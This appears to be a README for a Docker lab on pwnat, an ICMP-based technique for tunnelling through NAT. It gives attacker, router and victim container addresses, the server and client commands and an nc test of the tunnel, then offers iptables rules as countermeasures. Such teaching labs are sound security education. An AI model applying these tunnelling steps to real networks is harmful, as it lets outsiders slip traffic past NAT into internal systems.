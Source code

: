 The IP addresses for these containers are:
Attacker: 172.16.100.200
Router: WAN IP 172.16.100.10, LAN IP 192.168.1.10
Victim: 192.168.1.50
Configuring the Router:

Access the router container using 
``docker exec -it router /bin/bash``
Run ``bash vyos_routes.sh`` to load routes and iptables rules.
Starting the Attacker Server:

Access the attacker container using ``docker exec -it attacker /bin/bash``.
Start the server with ``pwnat -s``.
Configuring the Victim:

Access the victim container using ``docker exec -it victim /bin/bash``.
Run ``./code/pwnat -c 8000 172.16.100.200 purdue.edu 80`` to configure the client for the NAT exploit.

Testing the Exploit:
On the Docker host, run ``nc 192.168.1.50 8000`` to test the UDP tunnel.

Understanding the Exploit:
The exploit uses ICMP type 8 (echo request) and type 11 (time-to-live exceeded) to create a transparent UDP tunnel in NAT.

Implementing Countermeasures:
On the VyOS router container, run the following commands to block malicious ICMP packets:
``iptables -A INPUT -p icmp --icmp-type 11 -j DROP``
``iptables -A OUTPUT -p icmp --icmp-type 11 -j DROP``
Understanding Limitations:

The exploit's effectiveness is limited in Docker container networking due to direct routes from each Docker container network to the raw Network Interface Card (NIC).
Key Points:

UDP can be spoofed to allow tunneling of TCP protocols.
ICMP is vulnerable to attacks like redirects and TTL malforming.
NAT can be manipulated to allow malicious traffic into an internal network.
